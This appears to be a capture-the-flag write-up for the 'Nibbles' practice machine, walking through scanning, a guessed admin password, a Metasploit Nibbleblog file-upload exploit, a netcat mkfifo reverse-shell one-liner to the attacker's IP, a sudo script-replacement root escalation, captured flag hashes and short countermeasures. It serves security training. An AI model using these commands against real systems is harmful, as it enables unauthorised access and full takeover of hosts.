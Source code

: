 # Nibbles

![](./images/nibbles.png)

#### Machine Release Date: January 13, 2018

## Active Ports

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/full-tcp-version 10.10.10.75
```

```none
Nmap scan report for 10.10.10.75
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  8 15:25:57 2020 -- 1 IP address (1 host up) scanned in 8.09 seconds
```

## Vulnerability Discovery

Investigating the HTML source code at `http://10.10.10.75` revealed the hidden `/nibbleblog/` path:

![](./images/nibbles-html-source.png)

After navigating to the nibbles blog, I downloaded the `favicon.ico` image so that I could fingerprint when it was last created. This should give me an idea for how outdated the software is before seraching and trying publicly known exploits:

```none
$ wget http://10.10.10.75/nibbleblog/themes/simpler/css/img/favicon.ico
--2020-09-08 17:23:08--  http://10.10.10.75/nibbleblog/themes/simpler/css/img/favicon.ico
Connecting to 10.10.10.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1150 (1.1K) [image/vnd.microsoft.icon]
Saving to: ‘favicon.ico’

favicon.ico                                    100%[====================================================================================================>]   1.12K  --.-KB/s    in 0s

2020-09-08 17:23:08 (244 MB/s) - ‘favicon.ico’ saved [1150/1150]

kali@kali:~/htb/boxes/nibbles/web/images$ exiftool favicon.ico
ExifTool Version Number         : 12.04
File Name                       : favicon.ico
Directory                       : .
File Size                       : 1150 bytes
File Modification Date/Time     : 2013:11:01 14:24:00-04:00
File Access Date/Time           : 2020:09:08 17:23:08-04:00
File Inode Change Date/Time     : 2020:09:08 17:23:08-04:00
File Permissions                : rw-r--r--
Error                           : Unknown file type
```

As seen above, the `favicon.ico` file was last modified November 1, 2013 which was a long time before this box was released. Hence, most exploits developed after that date should affect that version. I searched the exploit database for known exploits written post November 1, 2013:

![](./images/nibbles-exploitdb.png)

Since a metasploit module was publicly available for the `Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)` exploit, I loaded metasploit. However, at this point, I also realized that I needed the nibbleblog administrator's username and password to properly upload my webshell.

After navigating to `http://10.10.10.75/nibbleblog/admin.php`, I was presented with a login page which I was able to bypass by guessing the trivial credentials `admin:nibbles`:

![](./images/nibbles-admin-login.png)

![](./images/nibbles-admin-panel.png)


## Exploitation (Weak Credential Guessing + CVE-2015-6967)

At this point, I loaded and properly configured the metasploit module:

```none
msf5 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf5 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.75:39054) at 2020-09-08 16:58:15 -0400
[+] Deleted image.php

meterpreter > getuid
Server username: nibbler (1001)
```

At this point, I had a low-privileged shell within my meterpreter session. Since I'm not a fan of the meterpreter shells, I executed a netcat reverse shell that would connect back to my netcat listener on my kali machine:

```none
meterpreter > shell
Process 1702 created.
Channel 0 created.
which nc
/bin/nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 2001 >/tmp/f
```

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.75.
Ncat: Connection from 10.10.10.75:39622.
/bin/sh: 0: can't access tty; job control turned off
$
```

At this point, I had a netcat reverse shell which I then upgraded to a [pseudo-pty](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2) with python3.

After that, I captured the `user.txt` file:

```none
nibbler@Nibbles:/home/nibbler$ cat user.txt
b02ff32bb332deba49eeaed21152c8d8
```

## Privilege Escalation (Arbitrary Sudo Without Password)

Checking the sudo permissions for the `nibbler` user revealed that I could execute `/home/nibbler/personal/stuff/monitor.sh` as the `root` user without providing a password:

```none
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Since I was the `nibbler` user, I had full access to create the `/home/nibbler/personal/stuff/monitor.sh` file and execute a root shell from there:

```none
nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff/
nibbler@Nibbles:/home/nibbler$ echo '#!/bin/sh' > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ echo 'bash' >> /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x /home/nibbler/personal/stuff/monitor.sh
```

After creating `/home/nibbler/personal/stuff/monitor.sh` and making it executable, I was able to execute via sudo with root permissions to grant myself a root shell and capture the `root.txt` flag:

```none
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler# find / -name root.txt
/root/root.txt
root@Nibbles:/home/nibbler# cat /root/root.txt
b6d745c0dfb6457c55591efc898ef88c
```

## Countermeasures

* Update the `nibbleblog` software to the latest version currently available. Disable it or uninstall it if no longer used.
* Prefer running services as a dedicated user. Keep sudo privileges restricted to other users on the system.
